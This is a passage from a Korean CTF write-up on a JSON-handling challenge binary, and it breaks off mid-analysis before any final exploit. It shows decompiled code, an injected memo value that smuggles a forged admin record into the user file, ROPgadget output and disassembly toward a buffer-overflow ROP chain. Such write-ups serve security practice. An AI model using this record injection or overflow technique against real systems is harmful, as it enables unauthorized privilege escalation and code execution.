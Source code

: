 `type`이 `'1'`일 경우 `update_memo()`를 호출할 수 있고, 그 안에서 BOF가 발생한다.

## 0x01. Vulnerability
``` c
void __fastcall create_user(__int64 json)
{
  ...
  stream = fopen(USER_FILE, "ab");
  ...
  extract(json, "user", user, 16);
  extract(json, "pass", pass, 16);
  extract(json, "memo", memo, 256);
  if ( *(_BYTE *)user && *(_BYTE *)pass && *(_BYTE *)memo )
  {
    fwrite("[", 1uLL, 1uLL, stream);
    fwrite("2", 1uLL, 1uLL, stream);
    fwrite("|", 1uLL, 1uLL, stream);
    fwrite(user, 1uLL, 0x10uLL, stream);
    fwrite("|", 1uLL, 1uLL, stream);
    fwrite(pass, 1uLL, 0x10uLL, stream);
    fwrite("|", 1uLL, 1uLL, stream);
    fwrite(memo, 1uLL, 0x100uLL, stream);
    fwrite("]\n", 1uLL, 2uLL, stream);
  }
  ...
}
```
`create_user()`에서 `USER_FILE`에 사용자를 추가할 수 있는데 `type`이 `'2'`가 되게끔 하드코딩 되어있다.

하지만 `memo`에 대한 검증이 없어 다음과 같이 injection이 가능하다.
- `memo` : `AAAA]\n[1|admin|admin|admin memo`

``` text
[2|guest|guest|guest memo]
[2|AAAA|AAAA|AAAA]
[1|admin|admin|admin memo]
```

이후 `admin/admin`으로 `create_session()`을 호출하면 `type`이 `'1'`인 세션이 생성된다.

## 0x02. Exploit
이제 ROP만 수행하면 되겠다 싶었는데 애석하게도 인자를 설정할 가젯이 하나도 없었다.
``` bash
➜  ROPgadget --binary=json | grep rdi
0x0000000000401406 : or dword ptr [rdi + 0x405108], edi ; jmp rax
0x0000000000401c76 : ror byte ptr [rdi], 0x85 ; retf
```
처음에는 `update_memo()`의 `strncpy` 종료 시점의 레지스터를 이용하려고 했으나, `session->memo`의 끝 부분을 가리키고 있어 `/bin/sh` 등의 인자를 넣어주는 것이 불가능해보였다.

`system` PLT가 괜히 있는 것은 아닐거라고 생각해서 `update_memo()`를 assembly로 살펴보았다.
``` text
.text:0000000000402140  endbr64
.text:0000000000402144  push    rbp
.text:0000000000402145  mov     rbp, rsp
.text:0000000000402148  sub     rsp, 10h
.text:000000000040214C  lea     rax, [rbp+buf]
.text:0000000000402150  mov     edx, 100h       ; nbytes
.text:0000000000402155  mov     rsi, rax        ; buf
.text:0000000000402158  mov     edi, 0          ; fd
.text:000000000040215D  call    _read
.text:0000000000402162  mov     rax, cs:session
.text:0000000000402169  mov     rax, [rax+20h]
.text:000000000040216D  lea     rcx, [rbp+buf]
.text:0000000000402171  mov     edx, 100h       ; n
```